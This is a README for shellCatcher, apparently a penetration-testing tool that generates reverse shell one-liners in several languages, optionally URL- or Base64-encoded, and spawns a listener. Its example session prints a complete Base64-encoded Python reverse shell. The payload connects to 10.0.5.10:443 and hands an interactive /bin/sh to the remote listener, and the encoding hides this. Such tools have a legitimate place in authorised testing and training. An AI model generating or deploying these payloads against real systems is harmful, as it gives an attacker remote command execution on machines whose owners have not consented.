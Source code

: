 shellCatcher
============

Small tool that spits out a reverse shell string in different languages, and spins up a listener that waits for its connection


example usage
============

Welcome to shellCatcher!
Please select a language to use from the list below:

[0] Bash
[1] PERL
[2] Python
[3] Netcat
[4] PHP
[5] Ruby
[6] Java
[7] xterm

\> 2

Please insert your IP address and port number
ex: 192.168.0.10:443

\> 10.0.5.10:443

Select an encoding. If you don't want one, select 0:
[0] None
[1] URL
[2] Base64

\> 2

Reverse Shell String:

cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC41LjEwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=

Spawning the listener on port 443
Waiting for connection...
